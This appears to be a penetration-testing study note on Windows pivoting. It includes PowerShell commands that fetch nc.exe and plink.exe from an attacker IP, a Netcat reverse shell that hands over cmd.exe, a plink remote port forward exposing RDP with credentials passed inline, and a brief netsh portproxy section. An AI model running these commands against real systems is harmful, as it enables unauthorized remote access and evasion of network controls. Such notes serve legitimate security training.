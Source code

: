1.b download 
```
powershell wget -Uri http://192.168.45.174/nc.exe -OutFile C:\Windows\Temp\nc.exe
powershell wget -Uri http://192.168.45.174/plink.exe -OutFile C:\Windows\Temp\plink.exe
```




2. set up a Netcat listener on [PORT] on our Kali machine.
```
nc -nvlp 4446
```




3. then from the windows machine:
```
C:\Windows\Temp\nc.exe -e cmd.exe [ATTACKER MACHINE] [PORT]
```

4. set up Plink with a remote port forward so that we can access the windows target using RDP

The command syntax to set up a remote port forward with Plink is very similar to the OpenSSH client remote port forward command. After the -R option, we'll pass the socket we want to open on the Kali SSH server, and the RDP server port on the loopback interface of MULTISERVER03 that we want to forward packets to.

If we won't be able to respond to this prompt, an easy solution in that case would be to automate the confirmation with `cmd.exe /c echo y`, piped into the `plink.exe` command.
This will emulate the confirmation that we usually type when prompted
```
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l [ATTACKER USERNAME] -pw [ATTACKER PASSWORD] -R 127.0.0.1:9833:127.0.0.1:3389 [ATTACKER MACHINE]
```

NOTE: This might log our Kali password somewhere undesirable! If we're in a hostile network, we may wish to create a port-forwarding only user on our Kali machine for remote port forwarding situations.

5.
Now we can connect to port 9983 on our Kali loopback interface with xfreerdp.
```
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```












### Netsh
The built-in firewall configuration tool `netsh` (also known as Network Shell).
Using `netsh`, we can set up a port forward with the portproxy subcontext within the interface context.

While `netsh` requires administrative privileges to create a port forward on Windows, it can be very useful in some restrictive situations.
